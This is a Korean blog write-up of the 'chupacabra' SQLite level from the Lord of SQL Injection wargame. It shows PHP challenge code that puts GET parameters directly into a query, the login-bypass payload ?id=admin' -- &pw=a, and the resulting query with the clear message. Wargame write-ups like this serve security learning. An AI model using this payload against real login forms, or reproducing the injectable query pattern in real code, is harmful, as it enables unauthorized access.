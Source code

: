```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - chupacabra 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


오늘 부터는 두 번째 업데이트에 올라온 문제다.  

이 전까지는 `DBMS`가 `MySQL`만 있었는데, 두 번째에 업데이트 된 문제는 `SQLite`, `MSSQL`, `MongoDB`를 사용하는 문제였다.  

먼저 `SQLite`의 첫 번째 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from member where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/chupacabra.db");
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("chupacabra");
  highlight_file(__FILE__);
?>
```

첫 번째 문제라 그런지 매우 간단하다.  

그냥 `id`가 `admin`인 값만 뽑아내면 된다.  

가장 기본 방식인 `'`와 `--`을 사용 해 아래와 같이 문제를 풀 수있었다.  

```
?id=admin' -- &pw=a
```

그럼 완성되는 쿼리는 아래와 같다.  

```
select id from member where id='admin' -- ' and pw='a'
```

`id='admin'` 까지만 실행하고 `--`가 삽입되며 뒤의 값은 주석처리 된다.  

제일 간단한 방법으로 풀 수 있는 문제였다.  

```php
-------------------------------------------------------------------------
query : select id from member where id='admin' -- ' and pw='a'
-------------------------------------------------------------------------

CHUPACABRA Clear!
<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/chupacabra.db");
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("chupacabra");
  highlight_file(__FILE__);
?>
```

`CHUPACABRA Clear!`
